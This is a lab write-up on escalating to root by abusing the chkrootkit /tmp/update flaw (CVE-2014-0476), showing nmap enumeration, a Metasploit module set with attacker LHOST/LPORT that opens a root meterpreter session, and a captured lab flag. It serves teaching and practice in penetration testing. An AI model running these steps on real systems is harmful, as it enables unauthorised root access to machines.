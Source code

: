 # 🚩 Exploiting Chkrootkit for Root Privilege Escalation

## 📌 Lab: Rootkit Workspace

Target: `192.137.220.3`
Attack Machine: Kali Linux (Metasploit Framework)

---

## 🔍 Enumeration with Nmap

We first enumerate the target machine using `db_nmap`:

```bash
msf6 > db_nmap -sV -Pn -sC -O 192.137.220.3
```

**Findings:**

* Port **22 (SSH)** open → OpenSSH 7.6p1 Ubuntu
* OS: Ubuntu Linux

---

## 👤 Initial Access

We obtained a low-privilege shell as user **jackie** via SSH.
Processes running show **chkrootkit** being executed regularly by root:

```bash
ps aux | grep chkrootkit
```

We discovered a suspicious script `/bin/check-down`:

```bash
cat /bin/check-down
```

It runs `chkrootkit` in a loop.

---

## ⚠️ Vulnerability: Chkrootkit (CVE-2014-0476)

* **chkrootkit** versions **< 0.50** contain a vulnerability.
* If a file named `/tmp/update` exists, chkrootkit will execute it **as root** during scans.
* This allows any local user to escalate privileges by writing a malicious executable/script to `/tmp/update`.
* Since `chkrootkit` is often run by **cron jobs** (every 10 or 15 minutes), the payload will eventually get executed automatically.

**References:**

* [NVD - CVE-2014-0476](https://nvd.nist.gov/vuln/detail/CVE-2014-0476)
* [Exploit-DB 33899](https://www.exploit-db.com/exploits/33899)

---

## 🎯 Exploitation with Metasploit

We use the Metasploit module:

```bash
use exploit/unix/local/chkrootkit
set CHKROOTKIT /usr/local/bin/chkrootkit/chkrootkit
set SESSION 1
set LHOST 192.137.220.2
set LPORT 4444
run
```

**What happens:**

* Module drops a payload into `/tmp/update`.
* Waits for `chkrootkit` to run (via cron).
* When executed by root, it spawns a **meterpreter session** as root.

---

## ✅ Privilege Escalation Success

```bash
meterpreter > getuid
Server username: root
```

We now have full root privileges.

---

## 🎁 Loot

Inside `/root`, we find the flag:

```bash
meterpreter > ls
meterpreter > cat flag
9db8bf8f483ff50857f26f9bd636bed6
```
